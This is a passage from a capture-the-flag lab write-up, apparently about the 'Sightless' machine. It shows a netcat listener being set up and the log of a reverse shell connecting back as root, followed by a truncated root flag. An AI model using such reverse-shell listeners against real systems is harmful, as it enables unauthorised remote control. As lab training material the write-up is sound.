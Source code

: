![img](/assets/img/Sightless/11.webp)

I set up a listener on my machine:

```bash
nc -lvnp 1337
```

After waiting for a bit, I finally got a root shell!

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.11.32] 32832
bash: cannot set terminal process group (34864): Inappropriate ioctl for device
bash: no job control in this shell
root@sightless:~# whoami
whoami
root
root@sightless:~#
```

root.txt

```text
87e3fe8cf...
```
